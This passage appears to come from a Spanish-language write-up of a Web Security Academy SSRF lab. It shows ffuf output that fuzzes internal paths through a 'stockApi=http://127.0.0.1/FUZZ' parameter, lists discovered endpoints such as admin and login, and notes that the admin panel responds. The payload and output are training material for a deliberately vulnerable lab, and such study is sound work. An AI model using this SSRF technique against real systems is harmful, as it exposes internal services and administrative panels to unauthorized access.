 ```
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Sec-Ch-Ua-Mobile: ?0
 :: Header           : Origin: https://0aa4009a0300a26280dad03600080051.web-security-academy.net
 :: Header           : Sec-Fetch-Dest: empty
 :: Header           : Priority: u=1, i
 :: Data             : stockApi=http://127.0.0.1/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 10665
________________________________________________

login                   [Status: 200, Size: 3197, Words: 1345, Lines: 65, Duration: 227ms]
admin                   [Status: 200, Size: 3070, Words: 1368, Lines: 67, Duration: 217ms]
Login                   [Status: 200, Size: 3197, Words: 1345, Lines: 65, Duration: 219ms]
filter                  [Status: 200, Size: 10763, Words: 5094, Lines: 200, Duration: 222ms]

```

[![ssrf7](/images/ssrf7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssrf7.png)


Comprobamos el acceso al panel de administración y verificamos que la página responde correctamente.
